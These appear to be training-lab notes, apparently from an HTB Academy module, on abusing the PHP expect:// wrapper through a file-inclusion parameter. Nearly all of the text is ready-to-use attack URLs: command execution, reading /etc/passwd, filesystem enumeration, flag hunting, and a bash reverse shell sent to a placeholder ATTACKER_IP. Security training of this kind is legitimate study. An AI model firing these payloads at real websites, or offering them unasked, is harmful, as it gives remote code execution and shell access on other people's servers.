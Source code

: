### Expect Wrapper Configuration

**Configuration Requirements:**
```ini
# Required PHP extension
extension=expect

# Usually disabled by default
```

**Basic Usage:**
```bash
# Direct command execution
expect://id
expect://whoami
expect://ls -la
```

### Expect Wrapper Examples

**Basic Command Execution:**
```bash
# Simple commands
http://target.com/index.php?page=expect://id
http://target.com/index.php?page=expect://whoami
http://target.com/index.php?page=expect://uname -a

# File system operations
http://target.com/index.php?page=expect://ls -la /
http://target.com/index.php?page=expect://cat /etc/passwd
```

**Advanced Expect Usage:**
```bash
# Complex commands with pipes
http://target.com/index.php?page=expect://ps aux | grep apache

# Command chaining
http://target.com/index.php?page=expect://whoami && id && pwd

# Reverse shell (if available)
http://target.com/index.php?page=expect://bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

### HTB Academy Expect Wrapper Lab

**Testing Process:**
```bash
# Step 1: Test for expect extension
http://target.com/index.php?language=expect://id

# If successful, expect is available
# Step 2: System enumeration
http://target.com/index.php?language=expect://uname -a
http://target.com/index.php?language=expect://ls -la /

# Step 3: User enumeration
http://target.com/index.php?language=expect://whoami
http://target.com/index.php?language=expect://cat /etc/passwd

# Step 4: Flag hunting
http://target.com/index.php?language=expect://find / -name "*flag*" -type f 2>/dev/null
http://target.com/index.php?language=expect://cat /path/to/flag.txt
```

---